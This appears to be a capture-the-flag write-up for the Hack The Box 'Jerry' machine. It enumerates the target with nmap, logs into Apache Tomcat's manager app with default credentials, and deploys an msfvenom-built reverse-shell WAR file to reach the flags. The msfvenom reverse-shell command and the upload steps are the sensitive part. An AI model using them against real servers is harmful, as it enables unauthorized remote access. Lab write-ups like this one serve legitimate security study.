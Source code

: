 # Jerry Easy Windows Machine

![image](https://github.com/user-attachments/assets/b2288312-2437-45af-909d-b69080e03cde)

## Machine Description

Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials. 

## Vulnerability Found

1. Using default credentials on Apache Tomcat HTTP server
2. Reverse shell via .WAR file upload 

## Step to Re-produce

### Enumeration

### Network Enumeration

I used `nmap` to perform network enumeration.

Payload:

    nmap 10.10.10.95 -p- -sV -sC -T5 -O -oN nmap1.txt

<div align="center">
  <img src="https://github.com/user-attachments/assets/fbd80588-982b-4a86-959a-ea78b8c3b142">
</div>

<div align="center">
  Nmap Output
</div>
</br>

From the nmap output, I found that this network run only one service. HTTP-Proxy was open in port 8080. I looked into it and found the Apache Tomcat default page.

### Web Enumeration

Upon finding the Apache Tomcat default page, I tried to get in into the manager app, but it asked me to input the credentials and I clicked on cancel. Turns out, the Apache Tomcat respond with a page saying I am not authorized. In response this page, Apache Tomcat also gave me a credentials, which is user `tomcat` password `s3cret`. You can see the picture below.

 <div align="center">
  <img src="https://github.com/user-attachments/assets/ec1f2089-b5f4-4595-8d08-499fb739ba68">
</div>

<div align="center">
  Tomcat credentials
</div>
</br>

Upon finding the credential, I tried to login into the manager app again and using the credential. By looking into the manager app further, I found that I can upload a .WAR file

 <div align="center">
  <img src="https://github.com/user-attachments/assets/663a7c5a-a22e-4723-b1f4-ff29da02ee3e">
</div>

<div align="center">
  Manager app
</div>
</br>

### Exploitation

I found this method to exploit Apache Tomcat by uploading .WAR file from [Hacktricks Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#rce). By following the **MSFVenom Reverse Shell**, I successfully exploiting the Apache server. Here is the step:

1. Create a .WAR file containing java/jsp_reverse_shell_tcp. Payload:

       msfvenom -p java/jsp_shell_reverse_tcp LHOST=Your-IP LPORT=Your-Port -f war -o revshell.war
  
2. Upload it into the Apache Tomcat via the **WAR file to deploy** section.
3. In the Application section, it should be shown and started.
4. Run a netcat listener on the port you set before.
5. Clicked on the file name to run the file.
6. Success obtain reverse shell

<div align="center">
  <img src="https://github.com/user-attachments/assets/171ae69b-ce86-4b25-af6b-5c1c333d460e">
</div>

<div align="center">
  Obtaining reverse shell
</div>
</br>

Next, I found an interesting file in `C:\Users\Administrator\Desktop\flags`. After I opened it, it showed me the both user.txt and root.txt

<div align="center">
  <img src="https://github.com/user-attachments/assets/3293c5b6-e227-4dc6-82cb-c6076c3de4f8">
</div>

<div align="center">
  user.txt and root.txt
</div>
</br>
